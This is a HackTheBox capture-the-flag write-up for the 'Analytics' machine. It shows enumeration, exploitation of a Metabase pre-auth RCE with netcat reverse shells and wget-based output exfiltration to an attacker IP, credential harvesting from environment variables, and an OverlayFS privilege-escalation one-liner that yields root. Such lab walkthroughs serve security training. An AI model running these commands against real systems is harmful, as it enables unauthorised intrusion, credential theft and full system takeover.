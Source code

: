 #htb

# HackTheBox: [Analytics](https://app.hackthebox.com/machines/Analytics)

## Enumeration

```console
$ nmap -n -sCV -T4 -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 14:34 CST
Nmap scan report for 10.10.11.233
Host is up (0.21s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```

Port 80 redirects to host `analytical.htb`, so I added that to `/etc/hosts`.

The page had a "Login" button, which redirected to `data.analytical.htb`, so I also added that to `/etc/hosts`.

<http://data.analytical.htb/auth/login>:

![](_/htb-analytics-20231010-1.png)

## Exploitation

[Metabase](https://www.metabase.com/) has a recent [pre-auth RCE](https://github.com/joaoviictorti/CVE-2023-38646) vulnerability.

`"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`

There is a [PoC for the vulnerability](https://github.com/joaoviictorti/CVE-2023-38646) available, but it's in Rust and I had some trouble getting it to compile on Kali.

The version of `cargo` on Kali is currently 1.65.0, which wasn't sufficient for the PoC, so I installed version 1.73.0 in userspace. Still, it complained about an error with the OpenSSL depency. To fix that, I added this to the `[dependencies]` section of `Cargo.toml`:

```console
openssl = { version = "0.10", features = ["vendored"] }
```

I started a `nc` listener on port 443 and tried the exploit:

```console
$ cargo run -- --url http://data.analytical.htb --command 'nc 10.10.16.5 443 -e sh'
    Finished dev [unoptimized + debuginfo] target(s) in 1.25s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'nc 10.10.16.5 443 -e sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

The exploit completes, however the listener sees a connection that immediately exits.

I was able to do some slow and awkward recon by passing simple commands to `wget` where I could view the results via Python3 `http.server`:

```console
$ cargo run -- --url http://data.analytical.htb --command 'wget http://10.10.16.5:8888/`whoami`'
```

And on the server:

```console
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.233 - - [10/Oct/2023 10:53:38] code 404, message File not found
10.10.11.233 - - [10/Oct/2023 10:53:38] "GET /metabase HTTP/1.1" 404 -
```

Via that method, I was able to determine the box was running [Alpine Linux](https://www.alpinelinux.org/) in a relatively minimal environment. That information is also discoverable via the [Metabase dockerfile](https://github.com/metabase/metabase/blob/master/Dockerfile), if you know where to look.

Eventually I discovered that running the commands via `busybox` solved the problem:

```console
$ cargo run -- --url http://data.analytical.htb --command 'busybox nc 10.10.16.5 443 -e busybox sh'
    Finished dev [unoptimized + debuginfo] target(s) in 0.06s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'busybox nc 10.10.16.5 443 -e busybox sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

And on the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.233] 35149
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

There are some interesting files in the container, notably `metabase.db.mv.db`, which (I think) is the H2 database to bootstrap the application. I transferred it and the `jar` file for the app (`/app/metabase.jar`) to my machine using `nc`. Running `strings` on the database turned up a user login and password hash:

```text
metalytics@data.htbJJohnnyISmith
<$2a$10$HnyM8[...]
```

I started `john` with `rockyou.txt` but ultimately never recovered the password, but I didn't need it, because the environment had what I needed:

```console
env | grep META
META_PASS=An4lyt[...]
META_USER=metalytics
```

Thanks to password-reuse I was able to login to the target:

```console
$ ssh metalytics@$t
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
[...]

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41

metalytics@analytics:~$ cat user.txt
1face9[...]
```

## Escalation

### Looney Tunables?

```console
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

metalytics@analytics:~$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```

This host appears vulnerable to the [Looney Tunables buffer overflow](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt), an vulnerability exploitable via the `GLIBC_TUNABLES` environmental variable.

[CrowdSec has a nice write-up](https://www.crowdsec.net/blog/detect-looney-tunables-exploitation-attempts), which includes a way to verify that the host is vulnerable:

```console
metalytics@analytics:~$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

A [PoC is available for the Looney Tunables bug](https://github.com/RickdeJager/CVE-2023-4911), but this target doesn't have `gcc` and it's not the cleanest exploit; i.e., it takes five minutes to complete on Ubuntu.

But there's a quicker option.

## OverlayFS Exploit

The target is vulnerable to [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629). The exploit is a one-liner:

```console

metalytics@analytics:/tmp/t$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
## id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
## cat /root/root.txt
127e2e[...]
```
